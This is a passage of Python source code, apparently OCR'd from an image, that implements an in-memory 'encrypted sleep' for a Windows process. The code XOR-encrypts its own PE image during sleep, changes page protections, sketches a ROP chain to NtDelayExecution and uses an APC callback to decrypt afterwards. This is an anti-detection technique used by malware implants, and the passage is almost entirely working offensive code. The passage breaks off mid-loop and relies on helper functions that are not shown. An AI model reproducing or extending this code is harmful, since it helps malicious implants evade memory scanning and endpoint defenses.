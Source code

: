 ```python
            # Get image base and size
            self.image_base = self.kernel32.GetModuleHandleW(None)
            self.image_size = self._get_image_size()
            
            # Create encryption key
            self.sleep_key = os.urandom(32)
    
    def _get_image_size(self) -> int:
        """Get PE image size from headers"""
        dos_header = ctypes.c_uint16.from_address(self.image_base).value
        if dos_header != 0x5A4D:  # MZ
            return 0
        
        nt_offset = ctypes.c_uint32.from_address(self.image_base + 0x3C).value
        size_of_image = ctypes.c_uint32.from_address(
            self.image_base + nt_offset + 0x50
        ).value
        
        return size_of_image
    
    def encrypted_sleep(self, milliseconds: int):
        """
        Sleep with full image encryption
        
        Technique:
        1. Save execution state
        2. Encrypt entire PE image
        3. Create ROP chain to NtDelayExecution
        4. ROP chain calls decrypt routine after sleep
        5. Resume execution
        """
        
        # 1. Change memory protection to RW
        old_protect = wintypes.DWORD()
        self.kernel32.VirtualProtect(
            self.image_base,
            self.image_size,
            0x04,  # PAGE_READWRITE (no execute during sleep)
            ctypes.byref(old_protect)
        )
        
        # 2. Encrypt image
        image_bytes = (ctypes.c_ubyte * self.image_size).from_address(self.image_base)
        for i in range(self.image_size):
            image_bytes[i] ^= self.sleep_key[i % 32]
        
        # 3. Setup ROP chain for sleep + decrypt
        rop_chain = self._build_rop_chain(milliseconds)
        
        # 4. Queue timer APC to decrypt and restore
        timer = self._create_timer_queue(milliseconds, self._decrypt_callback)
        
        # 5. Enter alertable sleep
        self.ntdll.NtDelayExecution(1, ctypes.byref(wintypes.LARGE_INTEGER(milliseconds * -10000)))
        
        # 6. After sleep, decrypt (via APC callback)
        # ... callback handles decryption
    
    def _decrypt_callback(self):
        """Callback to decrypt image after sleep"""
        # Decrypt image
        image_bytes = (ctypes.c_ubyte * self.image_size).from_address(self.image_base)
        for i in range(self.image_size):
```